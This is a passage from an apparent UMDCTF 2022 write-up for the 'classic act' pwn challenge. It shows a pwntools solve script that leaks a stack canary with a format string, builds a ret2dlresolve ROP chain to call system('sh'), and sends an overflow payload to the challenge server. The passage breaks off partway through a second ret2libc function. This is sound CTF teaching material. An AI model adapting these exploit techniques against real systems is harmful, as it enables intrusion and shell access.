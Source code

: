 ![rage](/assets/img/UMDCTF_2022/classic_act_rage.gif){: .image-50 }

Then I tried with <https://libc.rip/> and I found the right result: `libc6_2.31-0ubuntu9.7_amd64.so`. After that, thanks to [one_gadget](https://github.com/david942j/one_gadget), all the work was done, the rest is the python script.

{:.linenumber}
```python:solve.py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./_classicact")
libc = ELF("libc.so.6")
context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
    elif args.GDB:
        r = gdb.debug([exe.path], gdbscript='b vuln')
    else:
        r = remote("0.cloud.chals.io", 10058)

    return r

def ret2dlres(r):
    dlresolve = Ret2dlresolvePayload(exe, symbol="system", args=["sh"])
    rop = ROP(exe)
    ret = rop.find_gadget(['ret'])[0]
    rop.raw(ret)
    rop.gets(dlresolve.data_addr)
    rop.ret2dlresolve(dlresolve)
    r.sendlineafter(b'!\n', b'%19$lx')
    r.recvline()
    canary = int(r.recv(16), 16)
    log.info(f'canary: {hex(canary)}')
    payload = b'a' * 72 + p64(canary) + b'a' * 8 + rop.chain() + b'\n' + dlresolve.payload
    r.sendlineafter(b'?\n', payload)

def ret2libc(r):
    # leak canary and libc pointer
    r.sendlineafter(b'!\n', b'%19$lx%12$lx')
    r.recvline()
    canary = int(r.recv(16), 16)
```